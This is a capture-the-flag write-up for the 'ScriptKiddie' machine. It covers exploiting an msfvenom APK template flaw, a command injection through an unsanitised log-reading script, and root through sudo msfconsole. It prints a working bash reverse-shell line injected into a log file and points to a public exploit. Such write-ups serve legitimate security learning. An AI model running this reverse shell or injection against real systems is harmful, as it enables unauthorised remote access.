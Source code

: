# ScriptKiddie

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (39) (3).png" alt=""><figcaption></figcaption></figure>

### Hacker Tools

Port 5000 presented a website where we could use tools like `nmap` and `msfvenom`:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can try it out and it works:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

I tested all forms of command injection, but nothing worked. So, I started checking whether the tools themselves had exploits, and I was surprised to see that `msfvenom` was exploitable:

{% embed url="https://www.exploit-db.com/exploits/49491" %}

We just need to replace the payload in the PoC to a reverse shell and generate the APK file:

<figure><img src="../../../.gitbook/assets/image (43) (1) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can upload this as a template file on the machine and change the LHOST to our IP address:

<figure><img src="../../../.gitbook/assets/image (9) (5) (1).png" alt=""><figcaption></figcaption></figure>

Then we would get a shell:

<figure><img src="../../../.gitbook/assets/image (1) (3) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Pwn

There was another user named `pwn` on the machine, so that's probably the next path. Within the home directory of `pwn`, we can see two other files:

<figure><img src="../../../.gitbook/assets/image (40) (1) (4).png" alt=""><figcaption></figcaption></figure>

The `bash` script was running some kind of logger that reads input from `/home/kid/logs/hackers` and executes commands based on it. Take note that we have control over this file.

<figure><img src="../../../.gitbook/assets/image (38) (2).png" alt=""><figcaption></figcaption></figure>

Now, we can see how the `${ip}` variable is not being sanitised and is run with `sh -c`, so this is our RCE point. Some testing revealed that the format of the log written is `[2021-05-28 12:37:32.655374] 10.10.16.9`. We can append a reverse shell to the end:

{% code overflow="wrap" %}
```
[2021-05-28 12:37:32.655374] 10.10.16.9 | bash -c 'bash -i >& /dev/tcp/10.10.16.9/8080 0>&1' #" > /home/kid/logs/hackers
```
{% endcode %}

After echoing it in, we would gain anoter reverse shell:

<figure><img src="../../../.gitbook/assets/image (11) (1) (6).png" alt=""><figcaption></figcaption></figure>

### Sudo MSFConsole

When checking `sudo` privileges, we see that we can run `msfconsole` as root.

<figure><img src="../../../.gitbook/assets/image (5) (1) (10).png" alt=""><figcaption></figcaption></figure>

The thing about `msfconsole` is that we can run shell commands in it. In short, we have root privileges just by doing `sudo msfconsole`:

<figure><img src="../../../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
